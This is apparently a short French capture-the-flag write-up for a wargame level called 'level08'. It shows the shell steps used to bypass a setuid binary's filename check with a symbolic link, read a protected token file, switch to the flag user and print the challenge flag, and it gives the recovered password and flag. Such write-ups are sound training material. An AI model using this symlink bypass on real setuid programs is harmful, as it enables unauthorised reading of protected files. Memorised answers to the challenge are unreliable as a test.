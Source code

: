 ## Démarche

- Dans le home 
  
    `ls -la`
    ```
    -rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
    -rw-------  1 flag08  flag08    26 Mar  5  2016 token
    ```

    `./level08`
    > ./level08 [file to read]
    `./level08 token`
    > You may not access 'token'

    `touch /tmp/token ; ./level08 /tmp/token`
    > You may not access '/tmp/token'

    `mv token /tmp/flag`
    > mv: cannot open `token' for reading: Permission denied

    `ln -s ~/token /tmp/flag ; ./level08 /tmp/flag`
    > quif5eloekouj29ke0vouxean

    `su flag08` : quif5eloekouj29ke0vouxean
    `getflag`
    > Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f

## Ressources